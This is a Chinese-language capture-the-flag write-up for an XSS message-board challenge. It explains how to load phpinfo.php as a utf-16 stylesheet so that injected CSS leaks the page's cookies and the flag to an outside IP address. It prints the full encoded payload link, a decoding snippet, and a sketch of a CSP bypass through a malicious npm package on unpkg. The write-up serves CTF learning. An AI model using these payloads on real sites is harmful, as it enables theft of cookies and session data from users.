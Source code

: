 ![image.png-41.3kB][7]

utf-16会把utf-8中正常的字符，2位作为一个字符解析，如果我们用utf-16引入utf-8，那么就会引入一大堆乱码。

如果你熟悉css，你可能会知道，css本身是一种容错率很强的语言，css文件即使遇到错误，也会一直读取，直到有符合结构的语句。

让我们回到站内继续讨论。

1、站内是一个比较常见的xss留言板，还有不太严格的csp
```
Content-Security-Policy:default-src *; img-src * data: blob:; frame-src 'self'; script-src 'self' unpkg.com; style-src 'self' unpkg.com fonts.googleapis.com; connect-src * wss:;
```
2、站内有phpinfo.php，在phpinfo中会记录当前用户的所有cookie信息，包括httponly（我们通过读取phpinfo页面内容就能获取flag)
3、phpinfo.php还会接受所有的request请求，显示在页面里
![image.png-144.7kB][8]


那么如果把上面的所有思路连接起来，就能构成我们要的payload了。

1、通过link，以utf-16的方式引入phpinfo页面。
2、写入
```
)},{}*{background:url(http://yourip?
```
类似的css

3、由于请求会在phpinfo页面中出现多次，所以后一条可以闭合前一条，用来读取这中间部分的页面内容。


完整payload：
```
<link tye="text/css" charset="utf-16" href='http://noxss.2017.teamrois.cn/phpinfo.php?a=%00)%00}%00,%00%7B%00%7D%00*%00{%00b%00a%00c%00k%00g%00r%00o%00u%00n%00d%00:%00u%00r%00l%00%28%00h%00t%00t%00p%00:%00/%00/%001%001%005%00.%002%008%00.%007%008%00.%001%006%00?%00' rel="stylesheet">  1
```
![image.png-176.1kB][9]

打回来的东西需要解码 
```
s = "xxxx"
ss= decodeURIComponent(s)

var decodedData = unescape(escape(ss).replace(/%u([\da-f]{2})([\da-f]{2})/gi, '%$2%$1'));

decodedData
```

可惜了，因为构造的payload在bot那里遇到一些问题，所以把蓝猫师傅叫醒了修了下bot才收到flag，错过了一血。。。

![image.png-238.1kB][10]


但事实上，题目没有就这样结束，因为上面的方法是预期解，但蓝猫师傅告诉我，CyKor通过绕csp的方式执行js，读取了flag，我仔细研究一下发现确实可行。

由于cdn[https://unpkg.com/](https://unpkg.com/)收录所有版本的npm包，所以如果上传一个包含恶意payload的页面。

通过link import包含进来，那么js就会执行，并获取flag


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/q2pugzy449ug7g2jwrtil2nb/QQ%E5%9B%BE%E7%89%8720170522042700.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/a30ck5pgg6c3s3cp2cszgqje/QQ%E5%9B%BE%E7%89%8720170522042704.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/xq1dvd410k4akjrkph9czibf/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/gatcaa6kdfsj5yp83tqr0gum/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/hw3a6uxucuisymxec92xlpf0/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/5lj4p4dzhmbwfyro8otybn55/image.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/j2zejln8rr685i5z2kqug0lz/image.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/i5msssh1l4rhwy7sba44n7f9/image.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ed5svbcx61a5nuigungwferj/image.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/6k5gwkjg2oiv3v94asck3t4k/image.png
  [11]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/b7mq9ysh8bg8ufcti7j4f9qd/image.png
  [12]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/0uu94m6khrhwwabdak1i5pt8/image.png